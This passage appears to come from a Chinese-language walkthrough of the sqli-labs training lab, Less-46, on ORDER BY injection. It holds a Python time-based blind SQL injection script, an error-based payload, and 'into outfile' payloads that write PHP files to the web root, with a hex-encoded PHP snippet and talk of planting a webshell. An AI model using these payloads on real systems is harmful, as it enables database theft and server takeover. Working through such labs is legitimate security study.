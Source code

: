 ```python
    for s in flags:
        # 爆库
        sort = "if((substr((select group_concat(schema_name) from information_schema.schemata)," + str(i)+",1)='"+ s +"'),sleep(0.1),0)"
        # 爆表
        # sort = "if((substr((select group_concat(table_name) from information_schema.tables where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)%23"
        # 爆字段
        # sort = "if((substr((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)%23"
        tmp_url = url + "?sort=" + sort
        start = time.time()
        resp = requests.get(tmp_url)
        end = time.time()
        if end - start > 0.1:
            flag += s
            # 当盲注出正确字符时，才去盲注下一位(变量i的作用)
            i += 1
            print(f"[#]------result: {flag}")
            break
        elif end - start > 2:
            print("跑了这么久，跑完了吗？跑完我给你停了🤓👍")
            exit()
        else:
            pass
```

![90](/medias/sqli-labs/90.png)


### order by + 数字 + procedure analyse(payload,数字)

```sql
?sort=1 procedure analyse(updatexml(1,concat(0x7e,user(),0x7e),1),  )
```


![91](/medias/sqli-labs/91.png)


### order by + 数字 + into outfile '文件路径'

把查询结果写入文件

```sql
?sort=1 into outfile '/var/www/html/Less-46/1.php'
```

![92](/medias/sqli-labs/92.png)

能写马子吗？好像可以的，使用`lines terminated by`来给写入的内容每一行末尾添加自定义内容！！🤯


```sql
?sort=1 into outfile '/var/www/html/Less-46/2.php' lines terminated by 0x3c3f3d706870696e666f28293b3f3e
```
